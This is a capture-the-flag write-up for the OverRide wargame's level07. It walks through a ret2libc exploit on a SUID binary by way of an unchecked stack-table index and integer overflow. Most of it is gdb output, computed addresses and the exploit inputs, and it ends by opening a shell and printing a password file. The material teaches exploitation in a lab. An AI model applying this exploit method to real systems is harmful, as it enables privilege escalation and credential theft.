 # Level 7

## Vulnerability

Ret2Libc attack on unprotected data table

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### main() overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

We can see the program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

We also know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

Vulnerability: no check is performed on indexes and an unsigned int table is stored on the stack. This means we can read and store in stack memory. 


### Build exploit

Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) calculate the 'index' of EIP
3) use maxint overflow to access protected indexes
4) run exploit by inputting malicious number + index to running program
<br />

**step 1** - find the address of system, exit, bin/sh
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at ```0xf7e6aed0```
- ```exit()``` is at ```0xf7e5eb70```
- ```"/bin/sh"``` is at ```0xf7f897ec```
<br />

**step 2** - calculate the 'index' of EIP <br />
Once we find the index in the table where we reach EIP, we can then store our payload there using ```store_number()```. 

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```
The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```
Next, we need to calculate the 'index' of our EIP address. 
```
  0xffffd63c   -    0xffffd474    =    int(0x1c8)  =   456
[eip_address]     [table_address]                    [bytes]

456 / 4   =   114
          [index in table]

114 % 3 = 0
```
Ah... index 114 is protected: ```114 % 3 = 0```. We can't store a number at this index. <br /><br />


**step 3** - use maxint overflow to access protected indexes

On lines 152-158 of the disassembled binary, we see that the table is accessed as ```data[index * 4]```. 
Since the index is an unsigned int and multiplied by 4, we can overflow uintmax to give the index where we want to go. 
```
0x100000000 = 2^32
[size of uintmax]

(2^32 / 4) + 114 = 1073741938
                  [index 114, after overflow]

1073741938 % 3 = 1
```
Index ```1073741938``` is unprotected! 

Let's test it out by causing the program to segfault. 
```
(gdb) run

Input command: store
 Number: 1094795585   # decimal for 0x41414141 or 'AAAA'
 Index: 1073741938    # index 114
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
<br /> 

**step 4** - run exploit by inputting malicious number + index to running program

Let's structure our exploit:
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # address
                        4159090384           4159040368             4160264172          # in decimal, to be number input
                            |                     |                     |
                        1073741938           115                    115                 # index to use
                        data[114]            data[115]              data[116]   
```
Let's give it a go!
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
